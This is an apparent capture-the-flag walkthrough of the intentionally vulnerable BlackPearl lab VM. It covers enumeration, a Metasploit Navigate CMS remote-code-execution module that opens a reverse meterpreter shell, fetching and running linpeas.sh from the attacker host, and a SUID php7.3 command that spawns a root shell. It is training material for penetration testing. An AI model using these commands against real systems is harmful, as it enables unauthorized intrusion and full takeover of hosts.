



<!-- markdownlint-disable MD022 -->
<!-- markdownlint-disable MD025 -->

# BlackPearl
{: .no_toc}

- Part of the Capstone VMs
- An intensionally vulnerable VM

## Table of contents
{: .no_toc .text-delta}

- TOC
{:toc }

## Summary

- 

## Enumeration (Nmap)

```console
┌──(kali㉿kali)-[~]
└─$ sudo nmap -T4 -p- -A 10.0.2.15
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-25 17:11 CET
Nmap scan report for 10.0.2.15
Host is up (0.0015s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 66381450ae7dab3972bf419c39251a0f (RSA)
|   256 a62e7771c6496fd573e9227d8b1ca9c6 (ECDSA)
|_  256 890b73c153c8e1885ec316ded1e5260d (ED25519)
53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u5 (Debian Linux)
| dns-nsid: 
|_  bind.version: 9.11.5-P4-5.1+deb10u5-Debian
80/tcp open  http    nginx 1.14.2
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.14.2
MAC Address: 08:00:27:9C:99:16 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   1.52 ms 10.0.2.15

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.37 seconds
```

## Browser


Comment in code: `<!-- Webmaster: alek@blackpearl.tcm -->`

## Directory Enumeration (FFuF)

```console
┌──(kali㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://10.0.2.15/FUZZ   


        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.0.2.15/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

#                       [Status: 200, Size: 652, Words: 82, Lines: 27, Duration: 3ms]
# license, visit http://creativecommons.org/licenses/by-sa/3.0/  [Status: 200, Size: 652, Words: 82, Lines: 27, Duration: 4ms]
                        [Status: 200, Size: 652, Words: 82, Lines: 27, Duration: 7ms]
#                       [Status: 200, Size: 652, Words: 82, Lines: 27, Duration: 9ms]
# Attribution-Share Alike 3.0 License. To view a copy of this  [Status: 200, Size: 652, Words: 82, Lines: 27, Duration: 17ms]
# on atleast 2 different hosts [Status: 200, Size: 652, Words: 82, Lines: 27, Duration: 17ms]
#                       [Status: 200, Size: 652, Words: 82, Lines: 27, Duration: 17ms]
#                       [Status: 200, Size: 652, Words: 82, Lines: 27, Duration: 17ms]
# This work is licensed under the Creative Commons  [Status: 200, Size: 652, Words: 82, Lines: 27, Duration: 18ms]
# directory-list-2.3-medium.txt [Status: 200, Size: 652, Words: 82, Lines: 27, Duration: 17ms]
# Priority ordered case sensative list, where entries were found  [Status: 200, Size: 652, Words: 82, Lines: 27, Duration: 18ms]
# Suite 300, San Francisco, California, 94105, USA. [Status: 200, Size: 652, Words: 82, Lines: 27, Duration: 18ms]
# Copyright 2007 James Fisher [Status: 200, Size: 652, Words: 82, Lines: 27, Duration: 18ms]
# or send a letter to Creative Commons, 171 Second Street,  [Status: 200, Size: 652, Words: 82, Lines: 27, Duration: 18ms]
secret                  [Status: 200, Size: 209, Words: 31, Lines: 9, Duration: 72ms]
                        [Status: 200, Size: 652, Words: 82, Lines: 27, Duration: 67ms]
:: Progress: [220560/220560] :: Job [1/1] :: 687 req/sec :: Duration: [0:05:59] :: Errors: 0 ::
```

> lets see whats in /secret  
> It's file!

```markdown
OMG you got r00t !


Just kidding... search somewhere else. Directory busting won't give anything.

<This message is here so that you don't waste more time directory busting this particular website.>

- Alek 
```
> Ok then let's stop busting
> We only have ports 22 and 53 left so lets try some DNS enumerations

## DNS Enumeration (dnsrecon)

```console
┌──(kali㉿kali)-[~]
└─$ dnsrecon -r 127.0.0.0/24 -n 10.0.2.15 -d blah
[*] Performing Reverse Lookup from 127.0.0.0 to 127.0.0.255
[+]      PTR blackpearl.tcm 127.0.0.1
[+] 1 Records Found
```
> We found a dns pointer record

Let's add that to our DNS

- open our hosts file `sudo nano /etc/hosts`
```console
  GNU nano 7.0                                                  /etc/hosts                                                           
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters 
```

- add `10.0.2.15  blackpearl.tcm` under the `127.0.1.1    kali` line, save `Ctrl + S` and exit `Ctrl + X`
- in the browser navigate to "blackpearl.tcm"
- we are presented with a php info page... nice



> Let's enumerate it

## Directory Enumeration (FFuF) DNS

```console
┌──(kali㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://blackpearl.tcm/FUZZ


        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://blackpearl.tcm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

# license, visit http://creativecommons.org/licenses/by-sa/3.0/  [Status: 200, Size: 86795, Words: 4215, Lines: 1040, Duration: 9ms]
#                       [Status: 200, Size: 86795, Words: 4215, Lines: 1040, Duration: 23ms]
# Attribution-Share Alike 3.0 License. To view a copy of this  [Status: 200, Size: 86795, Words: 4215, Lines: 1040, Duration: 40ms]
# This work is licensed under the Creative Commons  [Status: 200, Size: 86795, Words: 4215, Lines: 1040, Duration: 47ms]
# on atleast 2 different hosts [Status: 200, Size: 86795, Words: 4215, Lines: 1040, Duration: 33ms]
# directory-list-2.3-medium.txt [Status: 200, Size: 86795, Words: 4215, Lines: 1040, Duration: 176ms]
# or send a letter to Creative Commons, 171 Second Street,  [Status: 200, Size: 86795, Words: 4215, Lines: 1040, Duration: 334ms]
#                       [Status: 200, Size: 86795, Words: 4215, Lines: 1040, Duration: 434ms]
# Copyright 2007 James Fisher [Status: 200, Size: 86796, Words: 4215, Lines: 1040, Duration: 551ms]
                        [Status: 200, Size: 86796, Words: 4215, Lines: 1040, Duration: 626ms]
#                       [Status: 200, Size: 86796, Words: 4215, Lines: 1040, Duration: 836ms]
# Priority ordered case sensative list, where entries were found  [Status: 200, Size: 86796, Words: 4215, Lines: 1040, Duration: 901ms]
#                       [Status: 200, Size: 86796, Words: 4215, Lines: 1040, Duration: 1193ms]
# Suite 300, San Francisco, California, 94105, USA. [Status: 200, Size: 86796, Words: 4215, Lines: 1040, Duration: 1264ms]
navigate                [Status: 301, Size: 185, Words: 6, Lines: 8, Duration: 59ms]
```

> We got /navigate
> Let's see what it is

- Navigate to "blackpearl.tcm/navigate" 🤓



> Let's look for some exploits

```console
┌──(kali㉿kali)-[~]
┌──(kali㉿kali)-[~]
└─$ searchsploit navigate cms
------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                 |  Path
------------------------------------------------------------------------------- ---------------------------------
Navigate CMS - (Unauthenticated) Remote Code Execution (Metasploit)            | php/remote/45561.rb
Navigate CMS 2.8 - Cross-Site Scripting                                        | php/webapps/45445.txt
Navigate CMS 2.8.5 - Arbitrary File Download                                   | php/webapps/45615.txt
Navigate CMS 2.8.7 - ''sidx' SQL Injection (Authenticated)                     | php/webapps/48545.py
Navigate CMS 2.8.7 - Authenticated Directory Traversal                         | php/webapps/48550.txt
Navigate CMS 2.8.7 - Cross-Site Request Forgery (Add Admin)                    | php/webapps/48548.txt
Navigate CMS 2.9.4 - Server-Side Request Forgery (SSRF) (Authenticated)        | php/webapps/50921.py
------------------------------------------------------------------------------- ---------------------------------
```

> Uiii... RCE ❤️❤️❤️ Let's check it out in metasploit

## Metasploit

Search for "navigate cms" and use it

```console
msf6 > search navigate cms

Matching Modules
================

   #  Name                                 Disclosure Date  Rank       Check  Description
   -  ----                                 ---------------  ----       -----  -----------
   0  exploit/multi/http/navigate_cms_rce  2018-09-26       excellent  Yes    Navigate CMS Unauthenticated Remote


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/navigate_cms_rce

msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/navigate_cms_rce) > 
```

- check out the options 

```console
msf6 exploit(multi/http/navigate_cms_rce) > options

Module options (exploit/multi/http/navigate_cms_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework
                                         /wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /navigate/       yes       Base Navigate CMS directory path
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.0.2.9         yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


View the full module info with the info, or info -d command.
```

- Set rhosts and lets get a shell

```console
msf6 exploit(multi/http/navigate_cms_rce) > set rhosts blackpearl.tcm
rhosts => blackpearl.tcm
msf6 exploit(multi/http/navigate_cms_rce) > exploit

[*] Started reverse TCP handler on 10.0.2.9:4444 
[+] Login bypass successful
[+] Upload successful
[*] Triggering payload...
[*] Sending stage (39927 bytes) to 10.0.2.15
[*] Meterpreter session 1 opened (10.0.2.9:4444 -> 10.0.2.15:59240) at 2023-01-27 11:12:10 +0100

meterpreter > shell
Process 3363 created.
Channel 1 created.


id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

> We got a shell or something like that, let's get a proper tty shell

- google "how to spawn a tty shell"
- use `/bin/bash -i` or `which python` to check availability and `python -c 'import pty; pty.spawn("/bin/sh")'`  to spawn a proper bash

```console
/bin/bash -i
bash: cannot set terminal process group (355): Inappropriate ioctl for device
bash: no job control in this shell
www-data@blackpearl:~/blackpearl.tcm/navigate$ 
```
> There we go, now lets escalate our privileges

## LinPEAS

On host system:
- cd into /transfers and start a http.server `python3 -m http.server 80`

On target system:
- download linPEAS `curl 10.0.2.9/linpeas.sh -output linpeas.sh`
```console
curl 10.0.2.9/linpeas.sh -o linpeas.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  808k  100  808k    0     0  8421k      0 --:--:-- --:--:-- --:--:-- 8509k
```
- add execution permission `chmod +x linpeas.sh`
- run it `./linpeas.sh`

### Findings

- Found some SUIDs:
 ```console
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
strings Not Found
strace Not Found
-rwsr-xr-- 1 root messagebus 50K Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 10K Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 427K Jan 31  2020 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 35K Jan 10  2019 /usr/bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 44K Jul 27  2018 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 51K Jan 10  2019 /usr/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 4.6M Feb 13  2021 /usr/bin/php7.3 (Unknown SUID binary!)
-rwsr-xr-x 1 root root 63K Jan 10  2019 /usr/bin/su
-rwsr-xr-x 1 root root 53K Jul 27  2018 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 63K Jul 27  2018 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 44K Jul 27  2018 /usr/bin/chsh
-rwsr-xr-x 1 root root 83K Jul 27  2018 /usr/bin/gpasswd
 ```

### What Is SUID?
 
- SUID (Set owner User ID up on execution) is a special type of file permissions given to a file. 
- It gives temporary permissions to a user to run a program/file with the permissions of the file owner
- Lets search specifically for files with SUDIs set with `find / -type f -perm -4000 2>/dev/null`

```console
www-data@blackpearl:~/blackpearl.tcm/navigate$ find / -type f -perm -4000 2>/dev/null
<cm/navigate$ find / -type f -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/php7.3
/usr/bin/su
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/gpasswd
```

- Now let go to [GTFOBins](https://gtfobins.github.io/) and look for some juice SUIDs
- PHP is a match, looks like we can use the SUID of php to spawn a shell with root access. 



- Click on "SUID"


## Privilege Escalation

- Let' try that with the path to "php7.3" reported by linPEAS and the code from GTFOBins

```console
www-data@blackpearl:~/blackpearl.tcm/navigate$ /usr/bin/php7.3 -r "pcntl_exec('/bin/sh', ['-p']);"
</usr/bin/php7.3 -r "pcntl_exec('/bin/sh', ['-p']);"
whoami
root
``` 

> WE GOT ROOT
